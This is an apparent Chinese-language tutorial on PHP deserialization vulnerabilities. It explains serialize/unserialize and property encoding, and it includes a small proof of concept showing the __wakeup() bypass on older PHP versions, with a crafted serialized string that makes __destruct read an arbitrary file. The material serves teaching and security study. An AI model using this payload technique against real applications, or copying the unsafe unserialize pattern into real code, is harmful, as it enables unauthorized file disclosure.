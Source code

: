 ## 反序列化漏洞

序列化：把对象转换为字节序列的过程成为对象的序列化

反序列化：把字节序列恢复为对象的过程称为对象的反序列化

在 PHP 中主要就是通过`serialize`和`unserialize`来实现数据的序列化和反序列化

```php
<?php
    class Ameng{
    public $who = "Ameng";
	}
	$a = serialize(new Ameng);
	echo $a;
?>
# 执行结果
O:5:"Ameng":1:{s:3:"who";s:5:"Ameng";}
```

这里还要补充一点，就是关于变量的分类，变量的类别有三种：

- public：正常操作，在反序列化时原型就行
- protected：反序列化时在变量名前加上%00*%00
- private：反序列化时在变量名前加上%00类名%00

### __wakeup()

在反序列化时，会先检查类中是否存在`__wakeup()`，如果存在，则执行。但是如果对象属性个数的值大于真实的属性个数时就会跳过`__wakeup()`执行`__destruct()`

影响版本：

PHP5 < 5.6.25
PHP7 < 7.0.10

```php
# 当前目录中需存在2.php
<?php
	header("Content-Type: text/html; charset=utf-8");
    class Ameng{ 
        public $name='1.php'; 

        function __destruct(){ 
            echo "destruct执行<br>";
            echo highlight_file($this->name, true); 
        } 
        function __wakeup(){ 
            echo "wakeup执行<br>";
            $this->name='1.php'; 
        } 
    }
	$data = 'O:5:"Ameng":2:{s:4:"name";s:5:"2.php";}';
	unserialize($data);
?>
# $data对象属性个数的值大于Ameng真实的属性个数，执行`__destruct()`触发highlight_file(2.php, true)
# 执行结果
destruct执行
`2.php内容`
```
